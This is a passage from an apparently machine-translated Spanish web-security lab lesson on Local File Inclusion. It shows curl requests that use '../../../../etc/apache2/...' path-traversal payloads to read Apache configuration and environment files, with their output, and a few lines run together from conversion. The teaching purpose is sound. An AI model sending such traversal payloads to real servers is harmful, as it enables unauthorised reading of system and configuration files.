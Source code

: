 Como podemos ver, el escaneo devolvió más de 60 resultados, muchos de los cuales no se identificaron con el[Lfi-jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)Lista de palabras, que nos muestra que una exploración precisa es importante en ciertos casos. Ahora, podemos intentar leer cualquiera de estos archivos para ver si podemos obtener su contenido. Leeremos (`/etc/apache2/apache2.conf`), ya que es una ruta conocida para la configuración del servidor Apache:

Escaneo automático

```
xnoxos@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog${APACHE_LOG_DIR}/error.log        CustomLog${APACHE_LOG_DIR}/access.log combined...SNIP...

```

Como podemos ver, obtenemos la ruta de raíz web predeterminada y la ruta de registro. Sin embargo, en este caso, la ruta log está utilizando una variable de Apache global (`APACHE_LOG_DIR`), que se encuentran en otro archivo que vimos anteriormente, que es (`/etc/apache2/envvars`), y podemos leerlo para encontrar los valores variables:

Escaneo automático

```
xnoxos@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pidexport APACHE_RUN_DIR=/var/run/apache2$SUFFIXexport APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.export APACHE_LOG_DIR=/var/log/apache2$SUFFIX...SNIP...

```

Como podemos ver, el (`APACHE_LOG_DIR`) La variable se establece en (`/var/log/apache2`), y la configuración anterior nos dijo que los archivos de registro son`/access.log`y`/error.log`, que han accedido en la sección anterior.

**Note:** Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the `PHP filters`La sección, y dichos esfuerzos pueden revelar información previamente desconocida sobre la aplicación web, que podemos usar para explotarla aún más.

---

# **LFI Tools**
